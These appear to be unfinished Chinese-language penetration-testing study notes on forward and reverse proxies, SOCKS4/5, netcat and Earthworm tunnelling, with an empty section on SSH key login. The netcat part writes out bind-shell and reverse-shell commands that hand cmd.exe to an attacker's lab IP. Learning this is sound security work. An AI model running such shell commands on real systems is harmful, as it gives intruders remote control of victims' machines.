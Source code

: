 ## 1.1、前言

```java
感觉自己流量代理、转发掌握的不太好，重新看一遍。
```

## 1.2、正向反向代理

正向代理，Proxy和Client同属于一个区域，对server是透明的。

（挂梯子）
反向代理：一般情况下，防火墙肯定不能让外网机器随便访问地访问内网机器，所以就提出反向代理。

## 1.3、Socks协议

中文意思：防火墙安全会话转换协议，工作在OSI参考模型的第五层（会话层）

![image-20240723144854867](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20240723144854867.png)

因为Socks介于传输层与表示层之间，使用TCP协议传输数据，因而**不提供如传递ICMP信息**之类的网络层相关服务。

目前有两个版本：SOCKS4和SOCKS5

SOCKS4支持TELNET、FTPHTTP等TCP协议；

SOCKS5支持TCP与UDP，并支持安全认证方案。

Ps: Socks不支持ICMP，不能使用ping命令。。记住哦~~~

## 1.4、Natcat

### 正向连接

nc -l -p 5555 -t -e cmd.exe   受害
nc -nvv 192.168.153.138 5555  攻击

### 反向连接

nc -lp 5555   攻击
nc -t -e cmd 192.168.153.140 5555  受害

## 1.5、Earthworm+Proxychains

#### 反弹SOCKS5服务器





# SSH密钥远程登录

#### 制作秘钥对

```java
ssh-keygen   //生成密钥再目录 /root/.ssh/id_rsa
```

#### 在服务器上安装密钥

















